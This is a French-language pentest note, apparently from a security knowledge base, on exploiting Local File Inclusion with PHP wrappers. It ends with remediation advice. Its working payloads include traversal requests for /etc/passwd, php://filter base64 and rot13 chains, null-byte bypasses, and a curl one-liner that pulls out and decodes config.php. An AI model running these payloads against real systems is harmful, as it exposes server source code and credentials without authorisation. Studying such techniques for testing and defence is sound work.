

## Flux d'exploitation LFI via PHP Wrappers



## Vérification de la vulnérabilité

La présence d'une vulnérabilité **LFI** (Local File Inclusion) peut être confirmée en manipulant les paramètres d'entrée pour accéder à des fichiers sensibles du système, tels que `/etc/passwd` sur les systèmes Linux ou `C:\Windows\win.ini` sur Windows.

> [!info] Contexte
> L'exploitation via **PHP Wrappers** permet de contourner l'exécution directe du code PHP côté serveur pour en extraire le contenu source.

Pour tester la vulnérabilité, on injecte des séquences de traversée de répertoire :

```bash
curl -s "http://target.com/index.php?page=../../../../etc/passwd"
```

Si le serveur retourne le contenu du fichier, la vulnérabilité est confirmée. Si le serveur tente d'exécuter le fichier PHP, on utilise les wrappers pour forcer la lecture du code source.

## Payload

L'utilisation du wrapper **php://filter** permet de lire le contenu d'un fichier en appliquant des filtres, comme l'encodage **base64**, afin d'éviter que le moteur PHP n'interprète le code source du fichier cible.

```bash
php://filter/convert.base64-encode/resource=index
```

> [!warning] 
> Vérifier les restrictions de l'**allow_url_include** dans **php.ini**.

> [!danger] 
> Attention : le wrapper **base64** peut échouer si le fichier est trop volumineux.

## Techniques de bypass

Lorsque des filtres de sécurité bloquent certaines extensions ou caractères, il est possible d'utiliser des encodages alternatifs ou des chaînes de filtres :

| Technique | Payload |
| :--- | :--- |
| **Bypass extension** | `php://filter/convert.base64-encode/resource=config` |
| **Chaînage de filtres** | `php://filter/read=string.rot13/resource=config.php` |
| **Null Byte (Legacy)** | `index.php?page=config.php%00` |

Si le serveur filtre le mot-clé `base64`, on peut tenter d'utiliser `convert.quoted-printable-encode`.

## Exfiltration de données

Une fois le contenu encodé en **base64** récupéré dans la réponse HTTP, il doit être décodé localement pour obtenir le code source original :

```bash
echo "PD9waHAgZWNobyAiSGVsbG8iOyA/Pg==" | base64 -d
```

Pour automatiser l'exfiltration d'un fichier complet, on utilise `curl` combiné avec `base64 -d` :

```bash
curl -s "http://target.com/index.php?page=php://filter/convert.base64-encode/resource=config.php" | base64 -d
```

## Remédiation

Pour sécuriser une application contre les **LFI**, les mesures suivantes doivent être appliquées :

*   Désactiver **allow_url_fopen** et **allow_url_include** dans le fichier **php.ini**.
*   Utiliser une liste blanche (whitelist) stricte pour les fichiers autorisés à être inclus.
*   Éviter de passer des entrées utilisateur directement dans des fonctions comme **include()**, **require()**, **include_once()** ou **require_once()**.
*   Implémenter des contrôles d'accès basés sur les rôles et valider les chemins d'accès aux fichiers.

---
*Sujets liés : **PHP Wrappers**, **LFI to RCE**, **Webshells***